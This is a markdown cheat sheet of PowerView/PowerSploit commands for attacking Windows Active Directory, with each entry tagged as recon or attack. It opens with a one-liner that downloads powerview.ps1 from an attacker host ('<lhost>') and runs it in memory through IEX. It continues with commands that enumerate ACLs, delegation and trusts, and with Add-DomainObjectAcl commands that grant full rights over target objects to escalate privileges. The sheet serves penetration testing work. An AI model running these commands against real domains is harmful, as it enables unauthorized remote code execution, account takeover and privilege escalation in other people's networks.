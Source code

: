 # powerview

% ad, windows, powerview

## load from remote
#plateform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Get User from SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Find user ACL 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Find all domain user ACL
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Add user DACL
#plateform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Find all groups our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Find all users our current user got access
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```


## Add GenericAll to target for user
#plateform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Find all Computer with unconstrained delegation
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Get all domain trust 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Get group member
```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain>
```

